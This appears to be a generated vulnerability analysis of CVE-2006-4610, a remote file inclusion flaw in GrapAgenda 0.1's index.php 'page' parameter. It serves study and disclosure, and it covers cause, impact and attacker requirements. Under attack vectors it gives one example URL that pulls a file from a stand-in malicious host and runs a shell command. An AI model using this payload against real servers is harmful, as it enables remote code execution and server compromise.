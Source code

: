 Based on the provided content, here's an analysis of CVE-2006-4610:

**Root Cause of Vulnerability:**
- The vulnerability is caused by a lack of proper input sanitization in the `index.php` script of GrapAgenda version 0.1. Specifically, the `page` parameter is directly included in the `include()` function without any validation or sanitization.

**Weaknesses/Vulnerabilities Present:**
- **Remote File Inclusion (RFI):** The code directly includes the value of the `page` parameter into the include statement, allowing an attacker to include a remote file by manipulating the `page` parameter with a malicious URL.
- **Lack of Input Sanitization:** The application fails to sanitize user-supplied input before using it in file inclusion, leading to the RFI vulnerability.

**Impact of Exploitation:**
- **Arbitrary Code Execution:** By including a remote file containing malicious code, an attacker can achieve arbitrary code execution on the server.
- **System Compromise:** Successful exploitation can lead to a full compromise of the affected server, giving the attacker access to sensitive data, and the ability to manipulate files, and potentially gain further access to other systems on the network.

**Attack Vectors:**
- **HTTP GET Request:** The attacker can manipulate the `page` parameter in the URL to point to a malicious file.
- Example: `http://www.site.com/[agendapath]/index.php?page=http://malicious-server.com/evil.txt?&cmd=id`

**Required Attacker Capabilities/Position:**
- **Network Access:** The attacker needs to be able to send HTTP requests to the vulnerable server.
- **Knowledge of Vulnerable Parameter:** The attacker needs to know that the `page` parameter in `index.php` is vulnerable.
- **Hosting of Malicious File:** The attacker needs to have a web server that hosts the malicious file they want to include on the vulnerable server.

**Additional Information:**
- The exploit is very straightforward due to the lack of any input validation before using the `include` function.
- The provided proof of concept (PoC) shows how a remote file can be included and how a system command can be appended.
- The vulnerability is classified as high risk.